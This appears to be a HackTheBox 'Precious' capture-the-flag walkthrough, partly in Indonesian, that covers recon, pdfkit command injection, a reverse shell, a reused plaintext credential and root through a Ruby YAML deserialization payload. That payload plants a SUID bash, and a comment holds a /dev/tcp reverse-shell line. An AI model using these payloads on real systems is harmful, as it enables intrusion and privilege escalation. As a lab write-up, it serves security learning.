 ```yaml
---
title: HackTheBox - Precious
date: 2024-02-06 08:01:00 +0700
categories:
  - HackTheBox
  - Machines
tags:
  - easy
---
```


![Desktop View](/assets/img/hackthebox/machines/easy/precious/Precious.png)


## Recon
### Nmap
```bash
# Nmap 7.94 scan initiated Mon Feb  5 23:08:59 2024 as: nmap -sCV -T4 -oN nmap.txt 10.10.11.189
Nmap scan report for JSN.JaringanKU (10.10.11.189)
Host is up (0.042s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
| ssh-hostkey: 
|   3072 84:5e:13:a8:e3:1e:20:66:1d:23:55:50:f6:30:47:d2 (RSA)
|   256 a2:ef:7b:96:65:ce:41:61:c4:67:ee:4e:96:c7:c8:92 (ECDSA)
|_  256 33:05:3d:cd:7a:b7:98:45:82:39:e7:ae:3c:91:a6:58 (ED25519)
80/tcp open  http    nginx 1.18.0
|_http-title: Did not follow redirect to http://precious.htb/
|_http-server-header: nginx/1.18.0
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Feb  5 23:09:10 2024 -- 1 IP address (1 host up) scanned in 10.97 seconds
```
```bash
echo "10.10.11.189 precious.htb" | sudo tee -a /etc/hosts
```

### Browser

![Desktop View](/assets/img/hackthebox/machines/easy/precious/precious1.png)

```bash
❯ vim test.txt
❯ python -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

![Desktop View](/assets/img/hackthebox/machines/easy/precious/precious2.png)

![Desktop View](/assets/img/hackthebox/machines/easy/precious/precious3.png)

```bash
❯ exiftool ouw1241pjvgxxd5vehgondzv0mtdaw5p.pdf
ExifTool Version Number         : 12.70
File Name                       : ouw1241pjvgxxd5vehgondzv0mtdaw5p.pdf
Directory                       : .
File Size                       : 9.8 kB
File Modification Date/Time     : 2024:02:06 08:13:14+07:00
File Access Date/Time           : 2024:02:06 08:13:15+07:00
File Inode Change Date/Time     : 2024:02:06 08:18:37+07:00
File Permissions                : -rw-r--r--
File Type                       : PDF
File Type Extension             : pdf
MIME Type                       : application/pdf
PDF Version                     : 1.4
Linearized                      : No
Page Count                      : 1
Creator                         : Generated by pdfkit v0.8.6
```

Nah, ada yang menarik nih. `Generated by pdfkit v0.8.6` coba kita cari eksploitnya. Dan saya menemukan [> ini <](https://security.snyk.io/vuln/SNYK-RUBY-PDFKIT-2869795)

![Desktop View](/assets/img/hackthebox/machines/easy/precious/precious4.png)
![Desktop View](/assets/img/hackthebox/machines/easy/precious/precious5.png)
![Desktop View](/assets/img/hackthebox/machines/easy/precious/precious6.png)
![Desktop View](/assets/img/hackthebox/machines/easy/precious/precious7.png)

## Shell into Ruby

![Desktop View](/assets/img/hackthebox/machines/easy/precious/precious8.png)

```bash
❯ nc -nvlp 9001
Connection from 10.10.11.189:34656
bash: cannot set terminal process group (679): Inappropriate ioctl for device
bash: no job control in this shell
ruby@precious:/var/www/pdfapp$ python3 -c 'import pty;pty.spawn("/bin/bash")'
python3 -c 'import pty;pty.spawn("/bin/bash")'
ruby@precious:/var/www/pdfapp$ export TERM=xterm
export TERM=xterm
ruby@precious:/var/www/pdfapp$ ^Z
[1]  + 47516 suspended  nc -nvlp 9001

❯ stty raw -echo; fg
[1]  + 47516 continued  nc -nvlp 9001

ruby@precious:/var/www/pdfapp$ cd
ruby@precious:~$ ls
ruby@precious:~$ sudo -l

We trust you have received the usual lecture from the local System
Administrator. It usually boils down to these three things:

    #1) Respect the privacy of others.
    #2) Think before you type.
    #3) With great power comes great responsibility.

[sudo] password for ruby:

ruby@precious:~$ ls -la
total 28
drwxr-xr-x 4 ruby ruby 4096 Feb  5 11:09 .
drwxr-xr-x 4 root root 4096 Oct 26  2022 ..
lrwxrwxrwx 1 root root    9 Oct 26  2022 .bash_history -> /dev/null
-rw-r--r-- 1 ruby ruby  220 Mar 27  2022 .bash_logout
-rw-r--r-- 1 ruby ruby 3526 Mar 27  2022 .bashrc
dr-xr-xr-x 2 root ruby 4096 Oct 26  2022 .bundle
drwxr-xr-x 4 ruby ruby 4096 Feb  5 11:16 .cache
-rw-r--r-- 1 ruby ruby  807 Mar 27  2022 .profile
ruby@precious:~$ cd .bundle
ruby@precious:~/.bundle$ ls -la
total 12
dr-xr-xr-x 2 root ruby 4096 Oct 26  2022 .
drwxr-xr-x 4 ruby ruby 4096 Feb  5 11:09 ..
-r-xr-xr-x 1 root ruby   62 Sep 26  2022 config
ruby@precious:~/.bundle$ cat config
---
BUNDLE_HTTPS://RUBYGEMS__ORG/: "henry:Q3c1AqGHtoI0aXAYFH"
```

## Shell into Henry

```ssh
❯ ssh henry@precious.htb
henry@precious.htb''s password: 
Linux precious 5.10.0-19-amd64 #1 SMP Debian 5.10.149-2 (2022-10-21) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Mon Feb  5 20:42:17 2024 from 10.10.14.26
henry@precious:~$ ls
user.txt
henry@precious:~$ cat user.txt
7754ab9bcbd0e58ec245c32c972eeb09
henry@precious:~$ sudo -l
Matching Defaults entries for henry on precious:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User henry may run the following commands on precious:
    (root) NOPASSWD: /usr/bin/ruby /opt/update_dependencies.rb
henry@precious:~$ sudo /usr/bin/ruby /opt/update_dependencies.rb
Traceback (most recent call last):
	2: from /opt/update_dependencies.rb:17:in `<main>'
	1: from /opt/update_dependencies.rb:10:in `list_from_file'
/opt/update_dependencies.rb:10:in `read`: No such file or directory @ rb_sysopen - dependencies.yml (Errno::ENOENT)
```
Coba cari digoogle `dependencies.yml privilege escalation`. Saya menemukan [> ini <](https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/ruby-privilege-escalation/#remote-code-execution-with-yaml)

```ruby
---
- !ruby/object:Gem::Installer
    i: x
- !ruby/object:Gem::SpecFetcher
    i: y
- !ruby/object:Gem::Requirement
  requirements:
    !ruby/object:Gem::Package::TarReader
    io: &1 !ruby/object:Net::BufferedIO
      io: &1 !ruby/object:Gem::Package::TarReader::Entry
         read: 0
         header: "abc"
      debug_output: &1 !ruby/object:Net::WriteAdapter
         socket: &1 !ruby/object:Gem::RequestSet
             sets: !ruby/object:Net::WriteAdapter
                 socket: !ruby/module 'Kernel'
                 method_id: :system
             git_set: cp /bin/bash /tmp/kz; chmod 6777 /tmp/kz
         method_id: :resolve
# "bash -c 'bash -i >& /dev/tcp/<local-ip>/<local-port> 0>&1'"
```
```ssh
henry@precious:/dev/shm$ wget 10.10.14.26:7890/dependencies.yml
--2024-02-05 21:10:41--  http://10.10.14.26:7890/dependencies.yml
Connecting to 10.10.14.26:7890... connected.
HTTP request sent, awaiting response... 200 OK
Length: 638 [application/octet-stream]
Saving to: ‘dependencies.yml’

dependencies.yml         100%[================================>]     638  --.-KB/s    in 0s      

2024-02-05 21:10:41 (59.7 MB/s) - ‘dependencies.yml’ saved [638/638]

henry@precious:/dev/shm$ sudo ruby /opt/update_dependencies.rb 
sh: 1: reading: not found
Traceback (most recent call last):
	33: from /opt/update_dependencies.rb:17:in `<main>'
	32: from /opt/update_dependencies.rb:10:in `list_from_file'
	<snip><snip>
	1: from /usr/lib/ruby/2.7.0/net/protocol.rb:458:in `write'
/usr/lib/ruby/2.7.0/net/protocol.rb:458:in `system': no implicit conversion of nil into String (TypeError)
henry@precious:/dev/shm$ ls /tmp/kz
/tmp/kz
henry@precious:/dev/shm$ /tmp/kz -p
kz-5.1# ls
dependencies.yml
kz-5.1# cd /root
kz-5.1# ls
root.txt
kz-5.1# cat root.txt
8e1ac4e7ff3b4d430a90c02493eb8cd4
kz-5.1# 
```